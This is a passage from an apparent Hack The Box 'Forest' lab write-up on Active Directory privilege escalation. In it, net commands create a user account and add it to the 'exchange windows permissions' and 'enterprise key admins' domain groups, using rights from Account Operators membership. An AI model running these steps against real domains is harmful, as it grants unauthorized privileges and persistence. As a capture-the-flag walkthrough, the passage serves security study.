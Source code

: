 - Since i am member of Account Operators and look at above pic, you can see GenericAll in which from hacktricks and it say that i have full control over it in which it mean that i have full control over enterprise key admins and exchange windows permissions but from [microsoft official page](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-groups#account-operators) about Account Operators and it say that ``Members of the Account Operators group can't manage the Administrator user account, the user accounts of administrators, or the Administrators, Server Operators, Account Operators, Backup Operators, or Print Operators groups. Members of this group can't modify user rights.`` in which maybe i should start with exchange windows permissions as this doesnot seems to be administrators
- let me start with exchange windows permissions
```
net user blackninja pass123@ /add
net group "exchange windows permissions" blackninja /add /domain
```
- let me try for enterprise key admins
```
net group "enterprise key admins" blackninja /add /domain
```

![](/assets/img/HTB/easy/Forest/user.png)
